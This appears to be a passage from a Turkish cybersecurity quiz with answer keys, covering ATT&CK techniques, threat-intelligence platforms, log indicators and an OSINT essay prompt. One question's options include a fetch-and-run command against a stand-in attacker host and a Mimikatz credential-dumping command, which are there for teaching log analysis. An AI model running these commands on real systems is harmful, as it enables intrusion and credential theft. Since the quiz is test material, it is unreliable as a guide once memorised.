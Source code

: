 
8.	Aşağıdaki ATT&CK tekniklerinden hangisi, “komut satırı betikleri ile sistem kontrolü” anlamına gelir?
•	A) T1059.001 – PowerShell
•	B) T1204.002 – Malicious File Execution
•	C) T1027 – Obfuscated Files or Information
•	D) T1566.001 – Spearphishing Attachment

Cevap ve kısa açıklama:
Doğru Cevap: A şıkkı
Cevap Açıklaması: PowerShell tekniği “komut satırı betikleri ile sistem kontrolü” anlamına gelir. B şıkkı kullanıcının zararlı dosya çalıştırmasına yönelikken, C şıkkı dosyaların karmaşıklaştırılarak review edilmesi zor hale getirilmesi, D şıkkı ise belirli bir hedefe yönelik kimlik avı saldırısı yapılması anlamına gelir.


9.	Aşağıdakilerden hangisi “Open-Source Threat Intelligence” (OSINT TI) sağlayan bir kaynaktır?
•	A) MITRE Caldera
•	B) MISP
•	C) Metasploit
•	D) Burp Suite

Cevap ve kısa açıklama:
Doğru Cevap: B şıkkı
Cevap Açıklaması: MISP yani Malware Information Sharing Platformu Hash'ler, IP adresleri, domain'ler ve diğer IOC'ları, malware örneklerini ve threat intelligence verilerini paylaşmak için kullanılır. MITRE Caldera saldırı simülasyonu ile ilgili, Metasploit exploit geliştirme ve saldırı ile ilgili, Burp Suite ise web uygulamalarını interrupt edebilmemizi ve güvenlik testlerini yapabilmemizi sağlar.


10.	Aşağıdaki log çıktılarından hangisi “credential access” ile ilgili bir iz içerir?
•	A) curl http://evil.com/malware.sh | sh
•	B) powershell Invoke-Mimikatz
•	C) user added to administrators group
•	D) dns query for update.microsoft.com

Cevap ve kısa açıklama:
Doğru Cevap: B şıkkı
Cevap Açıklaması: Invoke-Mimikatz komutu, sistem hafızasındaki parola ve hashleri çıkarmak için kullanılan bir araçtır. Yani credential access ile ilgilidir. A şıkkı uzaktan zararlı betik indirip çalıştırma ile ilgilidir. C şıkkı privilege escalation ile ilgilidir. D şıkkı ise ağ trafiği gözlemi ile ilgilidir.

---

Açık Uçlu Sorular

1. OSINT (Open Source Intelligence)
Soru:
Bir kişi ya da kuruluş hakkında OSINT kullanarak bilgi toplamak istediğinizde uygulayacağınız adımları sırayla açıklayınız.
•	Hangi kaynakları kullanırsınız?
•	Hangi araçları tercih edersiniz?
•	Elde ettiğiniz verilerin doğruluğunu nasıl kontrol edersiniz?
Not: Teknik araçlara (örneğin theHarvester, SpiderFoot, whois, vs.) özel örneklerle desteklemeniz beklenir.
